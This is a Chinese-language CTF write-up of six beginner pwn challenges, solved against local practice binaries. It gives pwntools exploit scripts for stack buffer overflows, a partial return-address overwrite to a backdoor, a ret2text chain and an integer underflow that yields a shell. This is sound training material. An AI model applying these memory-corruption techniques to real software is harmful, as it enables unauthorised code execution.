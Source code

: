 # buffer_overflow

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115091055.png)
反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115091300.png)
可以看到ans的内容
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115091337.png)
打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

  

local = True

if local:

p = process("./buffer_overflow")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'

p.send(payload)

p.interactive()
```
flag:
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115091529.png)
# game

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115092751.png)
反编译后可以看出当local_14累加到999后就可以获取shell。
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./game")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

num = 0

# p.recvuntil(b"Let's paly a game!")

while num<=999:

p.sendlineafter(b'pls input you num:', b'9')

num += 9

p.interactive()
```
flag:
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115092855.png)
# pie
开启了pie保护
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100232.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100243.png)
栈溢出仅能覆盖返回地址的一位，显然是将其覆盖为backdoor。
exp：
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./pie")

pwnlib.gdb.attach(p, 'b puts')

else:

pass

  

# pwnlib.gdb,attach(p)

payload = b'a' * 0x28 + p64(0x6c)

p.send(payload)

p.interactive()
```
shell:
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250116161208.png)

# real_login
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100541.png)
当输入为password时获取shell
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100606.png)
password如上
shell：
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100635.png)
# ret2text
取名为ret2text则大概率有后门函数
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250116145056.png)
有明显的栈溢出漏洞，找找后门函数
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250116145124.png)
action不是CET-4 word所以他是后门函数~~找了半天~~ 
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./ret2text")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

# rbp = 0x4011fd

ret = 0x40101a

backdoor = 0x4014ba

  

payload = b'a' * 0x48 + p64(ret) + p64(backdoor)

p.recvuntil("Make a wish: ")

p.sendline(payload)

p.interactive()
```
shell:
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250116145301.png)
# shop
运行后发现是一个简单的商店程序。
反编译后发现程序都没有明显的漏洞。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115155103.png)
根据提示会告知我们为整数漏洞。
那么最明显的就是让我们的钱变为负数来触发漏洞。
正常的购买都会判断钱是否足够再扣钱，但选项3则会无条件扣除50.
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115155212.png)
那么只需要让拥有的钱数少于50后触发选项3就能触发整数漏洞。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115155407.png)
可以看到初始钱数为0x64即100。
获取shell：
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115155516.png)
